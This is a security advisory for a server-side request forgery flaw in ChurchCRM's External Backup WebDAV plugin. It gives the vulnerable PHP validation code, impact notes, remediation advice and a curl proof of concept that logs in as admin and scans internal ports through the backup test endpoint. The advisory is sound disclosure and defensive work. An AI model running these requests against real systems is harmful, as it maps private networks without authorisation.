

# SSRF via WebDAV Backup Plugin — No Internal IP Filtering

**Product:** ChurchCRM  
**Version:** 7.3.3 (earlier versions likely affected)  
**CVE:** Pending  
**CWE:** CWE-918 — Server-Side Request Forgery (SSRF)  
**Severity:** Medium  
**CVSS 4.0:** 5.7 — `CVSS:4.0/AV:N/AC:L/AT:N/PR:H/UI:N/VC:L/VI:N/VA:N/SC:H/SI:N/SA:N`  
**Discovered:** 2026-06-10  
**Author:** Caio Chagas  

---

## Description

The External Backup plugin's WebDAV endpoint validation accepts any syntactically valid `http://` or `https://` URL — including loopback addresses and RFC 1918 private ranges. When a crafted internal URL is supplied as the backup target, the server performs an outbound cURL request to that host, enabling internal network port scanning through differentiated error messages.

## Root Cause

`ExternalBackupPlugin::isValidEndpointUrl()` calls `filter_var($endpoint, FILTER_VALIDATE_URL)` and checks that the scheme is `http` or `https`. It stops there. No DNS resolution, no IP range check, no block list. The subsequent `performPropfind()` method then opens a cURL handle to whatever URL passed validation and issues a `PROPFIND` request.

```php
// plugins/core/external-backup/src/ExternalBackupPlugin.php
private function isValidEndpointUrl(string $endpoint): bool
{
    if (filter_var($endpoint, FILTER_VALIDATE_URL) === false) { return false; }
    $scheme = parse_url($endpoint, PHP_URL_SCHEME);
    if (!in_array($scheme, ['https', 'http'], true)) { return false; }
    return true;  // ← no internal IP check
}
```

## Impact

- An administrator can map internal network topology by supplying different IP:port combinations and observing error message differences (`Received HTTP/0.9 when not allowed` vs `Failed to connect`)
- Services not exposed to the internet (databases, Redis, internal APIs, cloud metadata endpoints) can be probed
- When chained with VULN-04 (timer jobs privilege escalation), a non-admin user can trigger the backup cron hook after an admin has configured a malicious endpoint, lowering the effective privilege requirement

## Proof of Concept

```bash
# Authenticate as admin
curl -s -c cookies.txt -X POST "http://TARGET/churchcrm/session/begin" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "User=admin&Password=YourAdminPassword"

# Probe an open internal port (MySQL 3306)
curl -s -b cookies.txt -X POST \
  "http://TARGET/churchcrm/plugins/api/plugins/external-backup/test" \
  -H "Content-Type: application/json" \
  -d '{"settings":{"endpoint":"http://127.0.0.1:3306/","username":"a","password":"b"}}'

# Probe a closed port (9999)
curl -s -b cookies.txt -X POST \
  "http://TARGET/churchcrm/plugins/api/plugins/external-backup/test" \
  -H "Content-Type: application/json" \
  -d '{"settings":{"endpoint":"http://127.0.0.1:9999/","username":"a","password":"b"}}'
```

**Open port response:**
```json
{"success":false,"message":"Connection failed: Received HTTP/0.9 when not allowed"}
```

**Closed port response:**
```json
{"success":false,"message":"Connection failed: Failed to connect to 127.0.0.1 port 9999 after 0 ms"}
```

The error message difference unambiguously identifies whether a port is open or closed on the internal host.

## Evidence



## Affected Component

| Field | Value |
|-------|-------|
| Endpoint | `POST /plugins/api/plugins/external-backup/test` (admin management API) |
| File | `plugins/core/external-backup/src/ExternalBackupPlugin.php` |
| Function | `isValidEndpointUrl()`, `performPropfind()` |
| Auth required | Yes — Admin role |

## Timeline

| Date | Event |
|------|-------|
| 2026-06-10 | Vulnerability discovered and confirmed |
| 2026-06-10 | Vendor notified via GitHub Security Advisories |
| TBD | CVE ID assigned |
| TBD | Patch released |
| TBD | Public disclosure |

## Remediation

After URL syntax validation, resolve the hostname to an IP address and reject any result that falls within loopback (`127.0.0.0/8`), RFC 1918 private ranges (`10.x`, `172.16–31.x`, `192.168.x`), link-local (`169.254.x.x`), or other reserved ranges. This check must happen after DNS resolution to also prevent DNS rebinding attacks.

## References

- [ChurchCRM source](https://github.com/ChurchCRM/CRM)
- [Affected file](https://github.com/ChurchCRM/CRM/blob/master/plugins/core/external-backup/src/ExternalBackupPlugin.php)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
